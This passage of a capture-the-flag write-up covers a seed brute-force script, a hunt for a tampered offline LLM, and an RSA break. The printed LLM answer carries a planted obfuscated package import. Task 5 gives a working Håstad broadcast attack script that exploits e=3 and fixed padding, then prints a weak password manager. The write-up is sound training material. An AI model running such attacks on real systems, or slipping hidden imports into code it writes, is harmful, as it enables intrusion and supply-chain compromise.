		// XOR logic similar to your pseudocode
		v7 := currentRand
		for i := 0; i < len(username); i += 4 {
			var v9 uint64

			// Handle cases where fewer than 4 bytes remain in the username
			if len(username) < i+4 {
				remaining := len(username) - i
				switch remaining {
				case 1:
					v9 = uint64(username[i]) // One byte remaining
				case 2:
					v9 = uint64(binary.LittleEndian.Uint16(username[i:])) // Two bytes remaining
				case 3:
					// Combine the first 2 bytes and shift the third byte into place
					v9 = uint64(binary.LittleEndian.Uint16(username[i:])) | (uint64(username[i+2]) << 16)
				default:
					v9 = 0
				}
			} else {
				// Full 4-byte chunk
				v9 = uint64(binary.LittleEndian.Uint32(username[i:]))
			}
			
			// XOR with the last 4 bytes of v7 (currentRand)
			// Extract the last 4 bytes of v7 (as little endian)
			last4BytesOfV7 := uint64(v7 & 0xFFFFFFFF)

			// XOR operation: v7 ^= v9
			last4BytesOfV7 ^= v9
			
			v7 = last4BytesOfV7
		}

		// Compare the final v7 with the target value
		if v7  == v7Target {
			 
			fmt.Println("Match found: v7 matches the target value!")
			fmt.Printf("v7 = %d, target = %d seed =%d, i=%d\n", v7, v7Target, currentRand,i+1)
			break
		} else {
			// Initial v7 = currentRand
			fmt.Printf("v7=%d, %d\n", v7, i)
		}
	}
}
```
**Disclamer: This script might not work because my real script got overwritten when i was implementing the go script for task6 and forgot to save this one :sob:**

Running it (after a long time) we get a hit! 

```{"username":"jasper_06833","seed":7464590231507258090,"count":253585275}```

Submitting... and it works! We can move on! 

This task seems a bit more composed + simple when writing, but I swear it was so much harder, time-consuming, and confusing when I was solving it for the first time :sob:...

## Task 4 - LLMs never lie

> Great work! With a credible threat proven, NSA's Cybersecurity Collaboration Center reaches out to GA and discloses the vulnerability with some indicators of compromise (IoCs) to scan for.
> 
> New scan reports in hand, GA's SOC is confident they've been breached using this attack vector. They've put in a request for support from NSA, and Barry is now tasked with assisting with the incident response.
>
> While engaging the development teams directly at GA, you discover that their software engineers rely heavily on an offline LLM to assist in their workflows. A handful of developers vaguely recall once getting some confusing additions to their responses but can't remember the specifics.
>
> Barry asked for a copy of the proprietary LLM model, but approvals will take too long. Meanwhile, he was able to engage GA's IT Security to retrieve partial audit logs for the developers and access to a caching proxy for the developers' site.
>
> Barry is great at DFIR, but he knows what he doesn't know, and LLMs are outside of his wheelhouse for now. Your mutual friend Dominique was always interested in GAI and now works in Research Directorate.
>
> The developers use the LLM for help during their work duties, and their AUP allows for limited personal use. GA IT Security has bound the audit log to an estimated time period and filtered it to specific processes. Barry sent a client certificate for you to authenticate securely with the caching proxy using https://1270.0.0.1/?q=query%20string.
>
> You bring Dominique up to speed on the importance of the mission. They receive a nod from their management to spend some cycles with you looking at the artifacts. You send the audit logs their way and get to work looking at this one.
>
> Find any snippet that has been purposefully altered.


This one was like a walk in the park compared to the insanity that was task 3. So basically we are given a logfile of a bunch of commands + requests that were used by the developers that interacted with the gpt and a proxy service that spits out the answer of one of the questions in the logs, as well as the keys needed to securely connect. 

So what you basically had to do was just paste in the questions, and find whatever malicious code snippet was provided by the AI. 

The log file had some irrelevant hex data, so to clean it up I used `strings audit.log | grep 'd=gagpt' > output.txt` to clean up the useless commands and only get the requests to gagpt. The data comes out a lot nicer: 

```
...
ttyaudit=1714651723 w=1 d=curl https://raw.githubusercontent.com/stedolan/fzf/master/INSTALL.md | grep "git clone" > /tmp/install.txt\x0d u=1000 s=111 id=390184 c=0x406
ttyaudit=1714651792 w=1 d=sed 's/git clone //g' /tmp/install.txt > /tmp/out && mv /tmp/out /t\x03 u=1000 s=71 id=390185 c=0x2fd
ttyaudit=1714651889 w=1 d=sed 'so\x08/git clone //g' /tmp/instal.txt > \033[D\033[D\033[D\033[D\033[D\033[D\033[D\033[Dl\033[C\033[C\033[C\033[C\033[C\033[C\033[C\033[C/tmp/out && mv /tmp/out /tmp/install.txt\x0d u=1000 s=186 id=390186 c=0x65d2
ttyaudit=1714651995 w=1 d=gagpt -m "How much hand\x03 u=1000 s=27 id=390187 c=0x82dd
ttyaudit=1714652050 w=1 d=gagpt -m "How much handling is too much? I don't want to stress my python out but I also want to get it used to being held"\x0d u=1000 s=127 id=390188 c=0xe93b
...
```

```
...
ttyaudit=1714651995 w=1 d=gagpt -m "How much hand\x03 u=1000 s=27 id=390187 c=0x82dd
ttyaudit=1714652050 w=1 d=gagpt -m "How much handling is too much? I don't want to stress my python out but I also want to get it used to being held"\x0d u=1000 s=127 id=390188 c=0xe93b
ttyaudit=1714652973 w=1 d=gagpt -m "How do I build a Python script that pulls live GPS data from a vehicle's telemetry system, processes the route information, and maps the locations using a mapping service like Google Maps or OpenStreetMap"\x0d u=1000 s=219 id=390213 c=0x3914
...
```

Alright, now that we have all the questions sent to the gpt, we can just input these, and see stuff that was suspicious. 

I built a really short python script that will connect and send the request:

```python
import requests 

url = 'PROVIDED_DURING_COMPETITION'

query = '?q='
#REPLACE THIS UNTIL MALICIOUS SNIPPET FOUND!!!
question = "give me skeleton code to extracts telemetry data from a military vehicle's black box, analyze the data for irregularities, and generate a secure repor"

crt_file = 'client.crt'
key_file = 'client.key'

response = requests.get(url+query+question, cert=(crt_file, key_file), verify=False)
#filter the gagpt and put in the responses
#then write the output to a file and read the stuff stuff stuff
print(response.text)
```

After like 10-20 minutes, I found the malicious snippet:

```
{"fulfillment":[{"index":0,"role":"assistant","text":"Here's a skeleton code structure for the task:\n\n```python\nimport blackbox_interface\nimport data_analyzer\nimport report_generator\nimport encryption\n\ndef extract_telemetry():\n    globals()['ga'] = __import__('gfa5e89')\n    # Connect to black box\n    # Extract raw data\n    # Return data\n    pass\n\ndef analyze_data(telemetry):\n    # Process telemetry\n    # Detect irregularities\n    # Return analysis results\n    pass\n\ndef generate_report(analysis):\n    # Create report from analysis\n    # Format report\n    # Return report\n    pass\n\ndef encrypt_report(report):\n    # Encrypt report\n    # Return encrypted report\n    pass\n\ndef main():\n    telemetry = extract_telemetry()\n    analysis = analyze_data(telemetry)\n    report = generate_report(analysis)\n    secure_report = encrypt_report(report)\n    # Save or transmit secure_report\n\nif __name__ == \"__main__\":\n    main()\n```\n\nThis structure outlines the main components and flow of the program. You'll need to implement the specific functions based on the proprietary black box interface and chosen analysis and encryption methods."}],"id":"37808c77-2450-b712-f311-27c36cf5d743","lang":"en","model":"gagpt-xl","prompt":"give me skeleton code to extracts telemetry data from a military vehicle's black box, analyze the data for irregularities, and generate a secure repor","upstream":"gagpt-xl-7.internal"}
```

This is suspicious because it imports a package differently from the other imported packages, plus the important package is basically unknown. This is in fact a real vulnerability called a supply chain attack, where malicious packages are unknowingly installed into legit software to install cryptocurrency miners and steal data and whatnot.

Overall this challenge should have been task 3 since it felt MUCH easier than the actual task 3, but who cares. Onto the next.

## Task 5 - The #153

> Great job finding out what the APT did with the LLM! GA was able to check their network logs and figure out which developer copy and pasted the malicious code; that developer works on a core library used in firmware for the U.S. Joint Cyber Tactical Vehicle (JCTV)! This is worse than we thought!
>
> You ask GA if they can share the firmware, but they must work with their legal teams to release copies of it (even to the NSA). While you wait, you look back at the data recovered from the raid. You discover an additional drive that you haven’t yet examined, so you decide to go back and look to see if you can find anything interesting on it. Sure enough, you find an encrypted file system on it, maybe it contains something that will help!
>
> Unfortunately, you need to find a way to decrypt it. You remember that Emiko joined the Cryptanalysis Development Program (CADP) and might have some experience with this type of thing. When you reach out, he's immediately interested! He tells you that while the cryptography is usually solid, the implementation can often have flaws. Together you start hunting for something that will give you access to the filesystem.
>
> What is the password to decrypt the filesystem? 

Why does this have to have cryptography? We are given an encrypted USB drive, the private / public keys of the APT members, their email logs, encrypted passwords, and two programs called `pm` and `pidgin_rsa_encryption`.

Opening the binaries up in ghidra we find that it's a .pyc binary. This means we can just throw out ghidra and use a pyc decompiler like [https://pylingual.io/](pylingual), which is what I used.

### solving rsa

Let's decompile the `pidgin_rsa_encryption` binary first.

```
import sys
import math
import base64
import random
from Crypto.PublicKey import RSA
from rsa import core
#prob safe
def load_public_key(pub_key):
    try:
        with open(pub_key, 'rb') as f:
            public_key = RSA.import_key(f.read())
            return public_key
    except:
        pass
    print('public key not found')
    sys.exit(1)
#prob safe
def load_private_key(password, priv_key):
    try:
        with open(priv_key, 'rb') as f:
            try:
                private_key = RSA.import_key(f.read(), password)
            except:
                print('Incorrect password')
                sys.exit(1)
            return private_key
    except:
        pass
    print('private key not found or password incorrect')
    sys.exit(1)

def encrypt_chunk(chunk, public_key):
    k = math.ceil(public_key.n.bit_length() / 8)
    pad_len = k - len(chunk)
    #repeatedly uses the same random "pattern"
    random.seed(a='None')
    padding = bytes([random.randrange(1, 255) for i in range(pad_len - 3)])
    padding = b'\x00\x02' + padding + b'\x00'
    padded_chunk = padding + chunk.encode()
    input_nr = int.from_bytes(padded_chunk, byteorder='big')
    crypted_nr = core.encrypt_int(input_nr, public_key.e, public_key.n)
    encrypted_chunk = crypted_nr.to_bytes(k, byteorder='big')
    return base64.b64encode(encrypted_chunk).decode()

def decrypt_chunk(encrypted_chunk, private_key):
    try:
        decoded_chunk = base64.b64decode(encrypted_chunk)
    except:
        print('Invalid message')
        sys.exit(1)
    input_nr = int.from_bytes(decoded_chunk, byteorder='big')
    decrypted_nr = core.decrypt_int(input_nr, private_key.d, private_key.n)
    decrypted_chunk = decrypted_nr.to_bytes(256, byteorder='big')
    unpadded_chunk = decrypted_chunk[2:]
    end_of_pad = unpadded_chunk.find(b'\x00')
    unpadded_chunk = unpadded_chunk[end_of_pad + 1:]
    return unpadded_chunk.decode()

def encrypt_message(message, public_key):
    chunk_size = 245
    encrypted_chunks = []
    for i in range(0, len(message), chunk_size):
        chunk = message[i:i + chunk_size]
        encrypted_chunk = encrypt_chunk(chunk, public_key)
        encrypted_chunks.append(encrypted_chunk)
    return ' '.join(encrypted_chunks)

def decrypt_message(encrypted_message, private_key):
    encrypted_chunks = encrypted_message.split(' ')
    decrypted_message = ''.join((decrypt_chunk(chunk, private_key) for chunk in encrypted_chunks))
    return decrypted_message

def send_message_to_pidgin(message, recipient):
    import dbus
    bus = dbus.SessionBus()
    try:
        purple = bus.get_object('im.pidgin.purple.PurpleService', '/im/pidgin/purple/PurpleObject')
    except:
        print('Could not send message to pidgin - not connected')
        sys.exit(1)
    iface = dbus.Interface(purple, 'im.pidgin.purple.PurpleInterface')
    accounts = iface.PurpleAccountsGetAllActive()
    if not accounts:
        print('No active Pidgin accounts found.')
        return
    account = accounts[0]
    conv = iface.PurpleConversationNew(1, account, recipient)
    im = iface.PurpleConvIm(conv)
    iface.PurpleConvImSend(im, message)

def main():
    if len(sys.argv) < 2:
        print('Usage: python pidgin_rsa_encryption.py <mode> [<recipient> <message> <public_key> | <encrypted_message> <password>]')
        print('Modes:')
        print('  send <recipient> <message> <public_key> - Send an encrypted message')
        print('  receive <encrypted_message> <password> <private_key> - Decrypt the given encrypted message')
        sys.exit(1)
    mode = sys.argv[1]
    if mode == 'send':
        if len(sys.argv) != 5:
            print('Usage: python pidgin_rsa_encryption.py send <recipient> <message> <public_key>')
            sys.exit(1)
        recipient = sys.argv[2]
        message = sys.argv[3]
        pub_key = sys.argv[4]
        public_key = load_public_key(pub_key)
        encrypted_message = encrypt_message(message, public_key)
        send_message_to_pidgin(encrypted_message, recipient)
        print('Encrypted message sent to Pidgin.')
    elif mode == 'receive':
        if len(sys.argv) != 5:
            print('Usage: python pidgin_rsa_encryption.py receive <encrypted_message> <password> <private_key>')
            sys.exit(1)
        encrypted_message = sys.argv[2]
        password = sys.argv[3]
        priv_key = sys.argv[4]
        private_key = load_private_key(password, priv_key)
        decrypted_message = decrypt_message(encrypted_message, private_key)
        print('Decrypted message:', decrypted_message)
    else:
        print("Invalid mode. Use 'send' or 'receive'.")
if __name__ == '__main__':
    main()
```
Ok, so we know for sure this was the program used to encrypt their messages. The rsa encryption / decryption process is fairly standard, so there isn't a way to attack the rsa directly, but there's something really interesting:

```
def encrypt_chunk(chunk, public_key):
    k = math.ceil(public_key.n.bit_length() / 8)
    pad_len = k - len(chunk)
    #repeatedly uses the same random "pattern"
    random.seed(a='None')
    padding = bytes([random.randrange(1, 255) for i in range(pad_len - 3)])
    padding = b'\x00\x02' + padding + b'\x00'
    padded_chunk = padding + chunk.encode()
    input_nr = int.from_bytes(padded_chunk, byteorder='big')
    crypted_nr = core.encrypt_int(input_nr, public_key.e, public_key.n)
    encrypted_chunk = crypted_nr.to_bytes(k, byteorder='big')
    return base64.b64encode(encrypted_chunk).decode()
```

This is strange because the padding for this looks exactly like [PKCS#v1.5](https://en.wikipedia.org/wiki/PKCS_1), but the random padding that is heavily recommended to be **RANDOM** is deterministic, shown by the seed for `random` is the string `None`. 

I think the intention was to have the seed be the type `None`, which would use the current unix time as the randomized seed, which would in fact work, but due to this mistake, the padding is vulnerable.

Great so we identified a potential vulnerability. So why does this "deterministic" aka known padding so bad? Well, after looking through more of the provided information, we'll see why.

Looking at the public keys, we see something VERY VERY bad. 

(Their keys will look like this at first, but we can just parse it and print it in python)

ex.
```
-----BEGIN RSA PUBLIC KEY-----
MIIBCAKCAQEA0V9v5ITcAfyvt4P8Cuc/iYgvM7xgV9+6eGstmAfYFPtCzJ/nOXdl
trphRsJZr/GWl3ngyISDIhjmiPZJOAoRC9SoqdvrvDt3dWJ875tH8hWBMvBT+buz
wUN2rdhA+ljJ8dCyvLfgMa8lvvjPN701jKWzNmEWf+hn01eKncesq3PnJ6h+e0bQ
O7tT1ieUF2AgB+5y/hUBvIQC3dkC+dSyzsNG7Lwgs3gZ93cle7zyyU6t3mIO9Wo3
zEMNONeSunVbBLpepITn9bg6wFhPTxmiv+YG2BPOyhf6cyTQ7yZBXNBbQTp8Ujfl
+ZlvmmyGVN4i5YCwGh35ip2cYJX+yBVrEQIBAw==
-----END RSA PUBLIC KEY-----
```

```
Processed 4C1D_public_key.pem:
n = 0xc44aca54bbaa90d4af3e192a085f8b9189b94a7efdd4e07ada2e27960a48872d2e28f43dd085384f8ad6c8d73b3ffee9a814214daadad70cb00cc4b9985a3b10db6866996efbb4bfed5946050f13c7503448c88df95580ae1b6c7f180da6cc8365eafc2f9f546e5840675500e4d265bbd16b8ce6c06d632c2734bb3f0c7f8c393040dac8e7a75d9896985c827cf2d9bc7740ed7b69a1a7349c5903c16aec997d0ae432e2817c1c76b997cdf00bb09f67d1e02a270021cb12757b09ad2c29d430afe11defda642be27f2c52da0f6199adf0ca5ed33f2855c709b3523cb53321ea76e5df8824d09b75f5ee9e9508d06525f2f5000fd8e856f25f8bee53123b8f1f
e = 0x3

Processed 570RM_public_key.pem:
n = 0xd15f6fe484dc01fcafb783fc0ae73f89882f33bc6057dfba786b2d9807d814fb42cc9fe7397765b6ba6146c259aff1969779e0c884832218e688f649380a110bd4a8a9dbebbc3b7775627cef9b47f2158132f053f9bbb3c14376add840fa58c9f1d0b2bcb7e031af25bef8cf37bd358ca5b33661167fe867d3578a9dc7acab73e727a87e7b46d03bbb53d6279417602007ee72fe1501bc8402ddd902f9d4b2cec346ecbc20b37819f777257bbcf2c94eadde620ef56a37cc430d38d792ba755b04ba5ea484e7f5b83ac0584f4f19a2bfe606d813ceca17fa7324d0ef26415cd05b413a7c5237e5f9996f9a6c8654de22e580b01a1df98a9d9c6095fec8156b11
e = 0x3

Processed B055M4N_public_key.pem:
n = 0xaaabfb8867057b329d4c63efee4bb430c471a736e884b5d12e8d793d13deb12f9069e1c2b0a9bc75b2e353c81ba534a39a14bb4866178fc84152fa222fe69e06cec3603fbd683baf7e0eefc11d004008c97980ce363fb2cf2cd40fb314f1f0fa0add9ac3e01609da50fb038f0d53ee99bd53e2bde932055ce97499679dbe0c74736395569b5f39cb55e3032a840ca5ed21961023c56ad4078f50d16ff6a4ff74751e1fd5abe30876e0b60bfdfee7ce90d54475f4a5e4dcacfb5529334429d9e2006fc26e98f6af84abf8cbb9c6768a8d82dd68bf10c0abba5c3832eafc32f0e1624c8b024049f070e392d25db1863cea55b09707ca7b711838bd1db961a7518b
e = 0x3
Error processing .keys/570RM_private_key.pem: ('Could not deserialize key data. The data may be in an incorrect format, it may be encrypted with an unsupported algorithm, or it may be an unsupported key type (e.g. EC curves with explicit parameters).', [<OpenSSLError(code=75497580, lib=9, reason=108, reason_text=no start line)>])

Processed PL46U3_public_key.pem:
n = 0xe2603cde63f66fec3b23dfbce19e0adb89aaf87fcbc56527d7991ee4c082306921b7b13f45244c1e2f324d2e64730bf62677df040269c3cee06d41c360bd9dfd1cf734541b68da43b5821d2588d078fa4e82b074b4b28ca4f07768547996c7813e78411b5b6fb1f43ab83c2ae6a72b1f3ae7ea907f6abb97ebc5beb06facf1994f5a83deec2922c8137ab5d6ba63ec12d5ca8e32473b26050f16b20902ffa7be06be9acc31db8d222ab21288d71ace67f64b40d1bbe408667ed48b5126782c91deb203acf9daa4b2cc49a237bbcefbc1e208f3cfd81fa52861f4517ed7c65fc5fc22b51a87383c57a3a847dca4383691dc4850297a61b98d56b38761c9ba9f75
e = 0x3

Processed V3RM1N_public_key.pem:
n = 0xbf28f473a94e052f3371707fb57fb0386f0248cde3787d7e54045ed69fde8d3ab5101dda164771db06a42844894809af21e6b7dd39dc0b3b40168e73639eac9c93a29d6d8f754600e7d23227c4e9e5e892c6a0eb7a832cdbcc1fda8b54a644ab4eaffc3744bd2440109ea012b1e2ef3476b757e04bca2dc63909b9f4a480c50d2c099fab0c0272854e54d6d3f33785166181220991892dbc2403ff12cbab14ef0c6494c8cbbb1bbe5421591073929cfc4ffe67581587c5daf0df7c0f8b07174ebaecc9e275252b056dbf05be48821704a5bf2cba2673ca9975fa27fb57c8ba1b93ecee87a93fd4577b97888a52608c1add41853798e835bbfdedb1921483518f
e = 0x3

Summary:
Processed 5 PEM files
```
They just use 3 as the public exponent! This is **HEAVILY** not recommended as it basically defeats a large part in the difficulty of RSA. I'll provide an overview of RSA here for you to read in case you're are confused about wtf an RSA even is: [https://en.wikipedia.org/wiki/RSA_(cryptosystem)](https://en.wikipedia.org/wiki/RSA_(cryptosystem)) 

For the sake of time, I won't get into really specific details about low exponents and RSA, but essentially it makes it easy for attackers to revert our ciphertext into plaintext since an attacker can use an techniques such as LLL or simply cube-rooting the encrypted message to get a solution (If ciphertext very less than public key).

A common mitigation for this type of attack is to pad our plaintext with random data until our ciphertext (c) is greater than the public key (n). But as you can remember, our padding is basically known, so we can use that as a vector to attack this RSA cryptosystem along with the added vulnerability of a low exponent.

Hmmm... so what low exponent attack should we pick? [Coppersmith’s short-pad attack?](https://en.wikipedia.org/wiki/Coppersmith%27s_attack#Coppersmith%E2%80%99s_short-pad_attack)? Unfortunately, our unpadded encrypted message(s) are probably too long for this to be effective. We could try [Bleichenbacher's attack](https://medium.com/@nshani/vulnerability-impact-of-rsa-oaep-and-pkcs-1-v1-5-924692befa71)? Too lazy to launch a million messages and crash my computer + no oracle.

Let's look at the conversations in the email logs has something we can use.

```
<div class="chat" style="color: green;">
        <b>PL46U3:</b> Makes sense. Better safe than sorry. By the way, I tried accessing the AWS account to spin up a new instance for our testing environment, but the old password doesn't work anymore.
      </div>
      <div class="chat" style="color: blue;">
        <b>570RM:</b> Oh, right. I recently updated the password. I'll send the new one to you in a moment.
      </div>
      <div class="chat" style="color: green;">
        <b>PL46U3:</b> Great, thanks. I need it ASAP to keep things moving.
      </div>
      <div class="chat" style="color: blue;">
        <b>570RM:</b> No problem. I'll send the password to you, V3RM1N, and 4C1D. But we'll use the custom encryption protocol we discussed earlier. Can't be too careful.
      </div>
```
We see that the AWS password is sent to 3 other people, using a "custom encryption protocol" aka the rsa program. "Wait, but you may ask, how tf does this help?" I asked that very same question myself... until I realized I can use **Hastad's Broadcast Attack**!

Hastad's Broadcast Attack is illustrated quite nicely in this slide from a [Georgia Tech Lecture: ](https://faculty.cc.gatech.edu/~aboldyre/teaching/Fall05cs6260/rsafunchandouts.pdf)


In terms of our scenario, the password (our repeated message) is sent to multiple parties using RSA with a low e, our public keys are (probably) coprime, and since the public key N for all members in the message are significantly large, and we know a part of the message, we can basically find the congruences and cube root the result!

Here's the script used to decrypt the message:

```
import base64
import random
import math
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
from Crypto.Util.number import getPrime, inverse, long_to_bytes, bytes_to_long
from sympy import root, gcd
from sympy.ntheory.modular import solve_congruence
from sage.all import PolynomialRing, Zmod

# Load public key
public_key_path = '.keys/4C1D_public_key.pem'  # Replace with your public key path
with open(public_key_path, 'rb') as f:
    public_key_data = f.read()
# Load the public key object
public_key = serialization.load_pem_public_key(public_key_data, backend=default_backend())

# Extract the public numbers (e and n) from the key
public_numbers = public_key.public_numbers()
e1 = public_numbers.e
n1 = public_numbers.n


public_key_path = '.keys/PL46U3_public_key.pem'  # Replace with your public key path
with open(public_key_path, 'rb') as f:
    public_key_data = f.read()

public_key = serialization.load_pem_public_key(public_key_data, backend=default_backend())

# Extract the public numbers (e and n) from the key
public_numbers = public_key.public_numbers()
e2 = public_numbers.e
n2 = public_numbers.n

public_key_path = '.keys/V3RM1N_public_key.pem'  # Replace with your public key path
with open(public_key_path, 'rb') as f:
    public_key_data = f.read()

public_key = serialization.load_pem_public_key(public_key_data, backend=default_backend())

# Extract the public numbers (e and n) from the key
public_numbers = public_key.public_numbers()
e3 = public_numbers.e
n3 = public_numbers.n

n_values = [n1, n2, n3]
# Given ciphertext in base64 format
cts_base64 = [ 
              b"GTqjzfUK9oU7GbeFojTxBPaudYfIUZneg7UV7+Uv3A4yqxEv8ICCCbu/+kydM8Mc17xXWFOKD4lPPn9EXu3fdX/kSagpkr7KRMCRZBL8l/6Y9JlS5eftqlIf+zjVBer7ofoLJ9a0r3+yUyIELRXynJnMGeVfxpmqWnX/cC3T/UfckBKW6+PzuZ2q/S2F4TK0oLr2Bb+ObJ4t4GVZMV/Q/Zuf833CZhqma6iAbZEiKy9GZnunBtJhdmFXoCxBqv/wz7Ey7Jet4Z4fAzs7zPCo449VijZl0VuF6kKmrYVcAvsrA0fk1EZBH0i2ZZJFdGleDYKqAJWV1ErAvLXNCJDeQA==", 
              b"rgkfs3AcRqpX0VHC4YJZntJZUzOSBeu6ZKdLh6Od3x1cZs73YQ0GoqCmHJo3POb7uJeqiP0oyoHvN/Lv/Ul0ryUmlQKsT4jhFZ/A0PjyS8RYA+Hs6MQK1PVJrClYII0M8KQn4aKoynMvXqCwZUfbGKQzuOwxrOz6zsVwUYI+MOGRq0NFJqS/knTWB2hV3Dv0UaPbNtVu520CnKklD68oxVxt+zyNLPvMZL4buN8RL3yJM1eAjA7XDTMwrig0yUKct3qoGLgqW6iB8R4S9r18sWDJgPLnQRza3FqkzICexnymukIBfcbu0G2m0hWIkbn5TIQWqwhDFwnV3mNmctS2ZA==",
              b"bxEvS2JgPHxTfgzV5/hkBZAl5rdjgvcjDguGPlnlExrkEW3LKHiLdwaqkO7KP0w+PrKiMk6NiX6M3F//0nHsHPgzphFXI7iXzJgkKiy6AzdeVXhWml70jn9v/hvv33reDeJDIhLvv61ko1B3ancq7KCo6Hj2WWx9pxBm94Ki+W63KDX0iJfRaPt0G5HaftO1TJI3IPDihIWRznpoh5Glc1fY6bsCDzw0UeWTG3utcCy7tAzZNzRqnvcM1GwgdzY4uW1LQn2nx7Wg1XcjMW5S7jsRnK/PT2TUcJ8xaC55Ytogivas4grRavkyk7PEt1S98RkcQ/5patiQ0vvZIHvxbw=="]
cts = [bytes_to_long(base64.b64decode(i)) for i in cts_base64][::-1]

#verify that the Ns are coprime
assert gcd(n1, n2) == 1
assert gcd(n2, n3) == 1
assert gcd(n3, n1) == 1
assert e1 == e2 == e3
congruences = list(zip(cts, n_values))

x, mod = solve_congruence(*congruences)

padded_message = root(x,e1)

key_length = (min(n_values).bit_length() + 7) // 8
padded_bytes = long_to_bytes(padded_message, key_length)

print(padded_bytes)
```
And here is our message:

```
b'\x00\x02U\x13\xa7\xc5\x0b\r)\xa62_\xbf\x05\x93jq\xfbO~\xe9\xdf\xb5\xf9L\xfe\xa1/\xc3\x1f\x8b\xfd*gQ\xdd\xe5\t\xdd\x06\xa6\x1e\xd3\x98\xc1K\x98\\_\nb\x87\xdfa\xd4\xcb\x187x\xbb\xc0\x8d\xbfm\r)\x81>\xc8\x814\x989p\x8d\xb3\\\x01{\xfa0\x9e\nDU\xd7\x89\x9c\xac\xcd\x99O\nH:U\xa3k\x8a\xaa\xee\xf33/\x00Hey!  I needed to update the AWS password since it expired.  The new password is {nv,*R=*7Qww5<J8:;.  Please add it to your password managers.  Thanks!'
```

So we have the AWS password, which is <strong>`{nv,*R=*7Qww5<J8:;`</strong>. But no usb password to decrypt. And by now you might realize that the stored passwords and the `pm` executable is a password management system. So now we have to shift our attention to the other message we found in the logs, along with reverse engineering the pm program.

```
<div class="chat" style="color: red;">
        <b>B055M4N:</b> No problem. I’m sending the USB drive password now.
      </div>
      <div class="chat" style="color: red;">
        <b>B055M4N:</b> GI5xBM+hiOjvQVSkIP4t+EljBf/WNnHNuvBl1FhzXrTCrk9syWPxZALMdYTrMz353K8ATrvlbYVJ4L3iAOkMpFqHqpJDZ81Kv2PMx17rnYZDHJJFy2ltprjkItDvlnqgIQ3qrFnY4dryNwHs90Um9wK3fNVyNmqf37tgt0yXZPajFV5/QqjILnvzLQerO4ugfkHE1nX3HUlxSqu1WBIg2lJQzhI3IBQ4AEFVyQYzl7vQkrlD1/9YYj1CK4rG0vkziVd8o9roDQEIAnfw1aFn/qppJQzq9Q6sQ9jzfQpCyq6WZ4tAt8com5K66EyqJj5o1VTLUVtVEcxsFjXs1nJyeg==
      </div>
      <div class="chat" style="color: blue;">
        <b>570RM:</b> Got it. I’ll put the updated AWS password and the USB password into my password manager to keep everything secure.
      </div>
```
Ok, so we have the USB password encrypted and sent by "B055M4N" using the (broken) RSA custom encryption system. At first, I thought that due to the known padding we could do a Coppersmith Attack and essentially "shorten" the guess we need to find a "root", or the message. Only problem is we can't have a long message (aka like 2 sentences) which probably can't happen.

But unfortunately I learned (after a few days of constantly running into a wall completely fixating on the linear padding) that this assumption was very wrong. 

So after wasting time, I decided to actually look at the password management program. The USB password was stored by the password manager program after all, and it was basically the only "area" I didn't really focused on due to my fixation on RSA.

### solving aes-cfb

```
import os
import sys
import base64
from getpass import getpass
import hashlib
import time
import string
import random
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes
SALT = b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'

def derive_key(password: str) -> bytes:
    kdf = PBKDF2HMAC(algorithm=hashes.SHA256(), length=32, salt=SALT, iterations=100000, backend=default_backend())
    return kdf.derive(password.encode())

def generate_password(length: int) -> str:
    character_list = string.ascii_letters + string.digits + string.punctuation
    password = []
    for i in range(length):
        randomchar = random.choice(character_list)
        password.append(randomchar)
    print('Your password is ' + ''.join(password))
    return ''.join(password)

def encrypt_password(spassword: str, password: str) -> bytes:
    key = derive_key(password)
    ts = str(int(time.time() / 60)).encode('utf-8')
    iv = hashlib.md5(ts).digest()
    cipher = Cipher(algorithms.AES(key), modes.CFB(iv), backend=default_backend())
    encryptor = cipher.encryptor()
    encrypted_password = encryptor.update(spassword.encode()) + encryptor.finalize()
    return iv + encrypted_password

def decrypt_password(encrypted_data: bytes, password: str) -> str:
    key = derive_key(password)
    iv = encrypted_data[:16]
    encrypted_password = encrypted_data[16:]
    cipher = Cipher(algorithms.AES(key), modes.CFB(iv), backend=default_backend())
    decryptor = cipher.decryptor()
    decrypted_password = decryptor.update(encrypted_password) + decryptor.finalize()
    return decrypted_password.decode()

def save_password(filename: str, password: str, spassword: str):
    encrypted_password = encrypt_password(spassword, password)
    with open(filename, 'wb') as file:
        file.write(encrypted_password)
        print(f'Successfully saved password to {filename}')

def load_password(filename: str, password: str) -> str:
    with open(filename, 'rb') as file:
        encrypted_data = file.read()
    return decrypt_password(encrypted_data, password)

def usage():
    print('Usage: pm.py <command>')
    print('Commands:')
    print('  init   - Create a new master password')
    print('  add    - Add a new password')
    print('  gen    - Generate a new password')
    print('  read   - Retrieve a password')
    print('  help   - Print this help file')

def main():
    if len(sys.argv) != 2:
        usage()
        sys.exit(1)
    command = sys.argv[1]
    if command == 'init':
        homedir = os.path.expanduser('~')
        passdir = homedir + '/.passwords'
        if not os.path.isdir(passdir):
            os.mkdir(passdir)
        password = getpass(prompt='Enter your master password: ')
        passhash = hashlib.md5(password.encode('utf-8')).hexdigest()
        dirname = passdir + '/' + passhash
        if not os.path.isdir(dirname):
            os.mkdir(dirname)
            return
        print('directory already exists for that master password')
        return
    if command == 'add':
        password = getpass(prompt='Enter your master password: ')
        passhash = hashlib.md5(password.encode('utf-8')).hexdigest()
        dirname = os.path.expanduser('~') + '/.passwords/' + passhash
        if not os.path.isdir(dirname):
            print('Unknown master password, please init first')
            return
        service = input('Enter the service name:  ')
        filename = dirname + '/' + service
        if os.path.isfile(filename):
            print('A password was already stored for that service.')
        else:
            spassword = input(f'Enter the password to store for {service}:  ')
            save_password(filename, password, spassword)
    elif command == 'read':
        password = getpass(prompt='Enter your master password: ')
        passhash = hashlib.md5(password.encode('utf-8')).hexdigest()
        dirname = os.path.expanduser('~') + '/.passwords/' + passhash
        if not os.path.isdir(dirname):
            print('Unknown master password')
        else:
            service = input('Enter the service name:  ')
            filename = dirname + '/' + service
            if not os.path.isfile(filename):
                print('No password stored for that service using that master password')
            else:
                spassword = load_password(filename, password)
                print(f'Password for {service}: {spassword}')
    elif command == 'gen':
        password = getpass(prompt='Enter your master password: ')
        passhash = hashlib.md5(password.encode('utf-8')).hexdigest()
        dirname = os.path.expanduser('~') + '/.passwords/' + passhash
